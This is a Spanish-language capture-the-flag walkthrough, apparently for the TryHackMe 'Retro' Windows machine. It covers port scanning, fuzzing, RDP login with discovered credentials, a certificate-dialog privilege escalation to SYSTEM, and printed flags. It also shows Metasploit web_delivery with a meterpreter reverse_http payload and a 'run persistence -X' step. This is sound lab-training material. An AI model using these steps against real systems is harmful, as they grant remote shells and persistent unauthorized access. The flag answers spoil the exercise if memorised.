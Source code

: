 Lo primero que haremos será hacer un nmap y enumerar los puertos abiertos
IMG01



Una vez hecho esto haremos fuzzing y encontramos una ruta /retro
IMG02




Nos vamos a la pagina y encontramos que el nombre de Wade se refiere a un personaje de avatar que se llama parzival
IMG03

Ahora nos conectaremos por rdp, si no lo tenemos instalado lo instalamos con el siguiente comando:

sudo apt update && sudo apt install freerdp2-x11

Y luego para conectarnos por rdp a la maquina lo haremos con este otro comando:

xfreerdp /u:wade /p:parzival /v:192.168.1.211

Y si miramos el documento de texto del escritorio tenemos esta flag: THM{HACK_PLAYER_ONE}

Si nos fijamos bien en el escritorio, hay un ejecutable, le damos a abrir con administrador y hacemos click en Show details y luego nos saldra una pestaña para ver información sobre el certificado, hacemos click en ella y nos vamos a su pagina web.

IMG04

Luego tendremos que irnos al navegador, configuración y guardar archivo y nos vamos a la ruta C:\Windows\System32 y luego en la parte de arriba pondremos C:\Windows\System32\cmd.exe, abrimos la cmd y ejecutamos whoaami y somos nt authority\system.

Si entramos en la terminal y hacemos un dir vemos un root.txt donde esta la flag.


Ahora nos iremos a hacer un sudo msfconsole y con el comando search exploit/multi/script/web_delivery nos pondremos a ejecutar el exploit.

Ahora tendremos que poner el siguiente comando: set payload windows/meterpreter/reverse_http y luego ejecutar run -j

Una vez hagamos esto tendremos que copiarnos la salida del comando y ejecutarlo en la shell de windows, luego nos vamos a sessions en metasploit y vemos que tenemos una activa que es un meterpreter.

Por ultimo hacemos un sysinfo y luego un run persistence -X
